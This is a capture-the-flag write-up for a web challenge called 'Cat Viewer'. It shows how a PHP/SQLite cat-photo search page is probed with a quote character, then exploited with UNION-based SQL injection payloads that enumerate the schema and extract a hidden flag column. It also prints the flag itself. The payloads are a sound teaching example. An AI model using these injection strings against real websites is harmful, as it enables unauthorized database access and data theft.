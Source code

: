 # Cat Viewer

## Category
Web

## Description
I built a little web site to search through my archive of cat photos. I hid a little something extra in the database too. See if you can find it!

https://nessus-catviewer.chals.io/

## Solution

Website redirects to `https://nessus-catviewer.chals.io/index.php?cat=Shelton` page containing:
```
Searching for cats with names like Shelton

Name: Shelton Gay

<image of cat with base64 as img src>
```

Trying to open `https://nessus-catviewer.chals.io/index.php?cat=%22` returns following errors:

```
Searching for cats with names like "


Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: """ in /var/www/html/index.php on line 19

Fatal error: Uncaught Error: Call to a member function numColumns() on bool in /var/www/html/index.php:21 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 21
```

Website is susceptible for SQL Injections (Union Attacks):

`https://nessus-catviewer.chals.io/index.php?cat=%22%20UNION%20SELECT%20NULL,NULL,NULL,NULL--` returns

```
Searching for cats with names like " UNION SELECT NULL,NULL,NULL,NULL--

Name: 

<img src="data:image/gif;base64,">

<continuation of cat images>
```

Reading the schema database using
`" UNION ALL SELECT name,name,name,name FROM sqlite_schema;--`

```
Name: cats

Name: sqlite_sequence
```

and using `" UNION ALL SELECT sql,sql,sql,sql FROM sqlite_schema;--`

```
Name: CREATE TABLE cats ( id INTEGER PRIMARY KEY AUTOINCREMENT, image TEXT NOT NULL, name TEXT NOT NULL, flag TEXT NOT NULL )

Name: CREATE TABLE sqlite_sequence(name,seq)
```

Using another UNION attack to get content of cat.flag column
`" UNION ALL SELECT flag,flag,flag,flag FROM cats;--`

```
Name: flag{a_sea_of_cats}
```